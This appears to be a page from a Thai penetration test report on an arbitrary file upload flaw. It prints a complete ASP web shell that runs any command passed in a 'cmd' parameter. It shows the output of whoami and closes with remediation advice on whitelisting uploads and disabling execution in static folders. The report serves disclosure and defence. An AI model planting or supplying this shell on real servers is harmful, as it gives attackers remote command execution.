 \begin{figure}[h!]
	\centering
	\texttt{[image: arbiuploadform.png]}
	\caption{Upload Form ที่มีช่องโหว่}
	\label{Fig:arbiuploadform.png}
\end{figure}

\newpage

ด้านล่างนี้คือโค้ดที่อัพโหลดขึ้นไปบนระบบ ซึ่งระบบไม่ได้ตรวจสอบข้อมูลของไฟล์ที่ถูกอัพโหลด ทำให้ไฟล์นี้ถูกเก็บไว้ใน Static Folder ซึ้งสามารถเข้าถึงได้โดยตรง

 \begin{lstlisting}[language=html,numbers=none] 
<%
Set oScript = Server.CreateObject("WSCRIPT.SHELL")
Set oScriptNet = Server.CreateObject("WSCRIPT.NETWORK")
Set oFileSys = Server.CreateObject("Scripting.FileSystemObject")
Function getCommandOutput(theCommand)
Dim objShell, objCmdExec
Set objShell = CreateObject("WScript.Shell")
Set objCmdExec = objshell.exec(thecommand)
getCommandOutput = objCmdExec.StdOut.ReadAll
end Function
%>
<HTML>
<BODY>
<FORM action="" method="GET">
<input type="text" name="cmd" size=45 value="<%= szCMD %>">
<input type="submit" value="Run">
</FORM>
<PRE>
<% szCMD = request("cmd")
thisDir = getCommandOutput("cmd /c" & szCMD)
Response.Write(thisDir)%>
</p>
<br>
</BODY>
</HTML>
\end{lstlisting}

และรูปที่ \ref{Fig:arexec.png} คือผลลัพธ์เมื่อส่งคำสั่ง whoami ไปรันบนเครื่อง  (iis\textbackslash USER)
\begin{figure}[h!]
	\centering
	\texttt{[image: arexec.png]}
	\caption{ผลลัพธ์ของคำสั่ง whoami}
	\label{Fig:arexec.png}
\end{figure}

\newpage
วิธีการแก้ไขคือให้ Whitelist เฉพาะไฟล์ที่สามารถ Upload ได้ พร้อมทั้งตรวจสอบข้อมูลภายในไฟล์ว่าตรงตามที่ Whitelist หรือไม่ และควรตั้งค่าให้ Static Folder นั้นไม่สามารถ Execute ไฟล์ใด ๆ ได้

